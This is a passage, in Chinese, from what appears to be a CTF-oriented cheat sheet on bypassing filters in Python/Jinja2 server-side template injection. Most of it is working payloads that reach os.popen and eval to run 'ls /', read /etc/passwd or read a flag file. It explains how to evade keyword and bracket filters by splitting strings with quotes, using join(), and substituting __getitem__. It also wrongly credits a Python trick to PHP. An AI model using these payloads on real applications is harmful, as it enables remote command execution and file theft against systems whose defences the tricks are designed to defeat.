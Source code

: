 等同于

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

### 利用引号绕过

我们可以利用引号来绕过对关键字的过滤。例如，过滤了flag，那么我们可以用 `fl""ag` 或 `fl''ag` 的形式来绕过：

```python
[].__class__.__base__.__subclasses__()[40]("/fl""ag").read()
```

再如：

```python
().__class__.__base__.__subclasses__()[77].__init__.__globals__['o''s'].popen('ls').read()

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil''tins__']['eval']('__import__("os").popen("ls /").read()')}}
```

可以看到，在payload中，只要是字符串的，即payload中引号内的，都可以用引号绕过

### 利用join()函数绕过

们可以利用join()函数来绕过关键字过滤。例如，题目过滤了flag，那么我们可以用如下方法绕过：

```python
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()
```

这也是基于对PHP函数命令的理解来的。

绕过其他字符
------

### 过滤了中括号\[ \]

#### **利用 `__getitem__()` 绕过**

可以使用 `__getitem__()` 方法**输出序列属性中的某个索引处的元素**(相当于`[]`)，如：

```python
>>> "".__class__.__mro__[2]
<type 'object'>
>>> "".__class__.__mro__.__getitem__(2)
<type 'object'>
```

如下示例：

```python
{{''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(40)('/etc/passwd').read()}}       // 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性
```
